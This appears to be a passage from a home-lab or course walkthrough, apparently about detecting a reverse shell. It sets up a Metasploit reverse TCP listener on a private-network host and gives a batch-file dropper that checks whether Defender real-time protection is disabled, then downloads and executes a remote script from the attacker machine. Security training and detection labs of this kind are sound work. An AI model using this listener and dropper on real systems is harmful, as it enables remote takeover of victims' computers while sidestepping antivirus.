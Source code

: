

Set the LHOST to 192.168.56.104 and LPORT to 8443 with the commands below.
```
set lhost 192.168.56.104
```

```
set lport 8443
```

Start the reverse TCP handler/reverse shell (listening) with the command below
```
run
```


![alert2_metasploit](./images/alert2_metasploit.png)




From the Windows 11 VM and scope of this project/course, we will manually create and "place" the dropper file on the Desktop. Using a code editor (Visual Studio Code, Notepad++, etc.) save the below as a batch file (e.g. "testing.bat") and run.


```
@ECHO OFF
powershell -Command "& {if ((Get-MPComputerStatus).RealTimeProtectionEnabled -eq $false) {Invoke-WebRequest -URI http://192.168.56.104:8000/shell.txt -OutFile c:\Windows\temp\shell.bat; c:\Windows\temp\shell.bat}}"
```
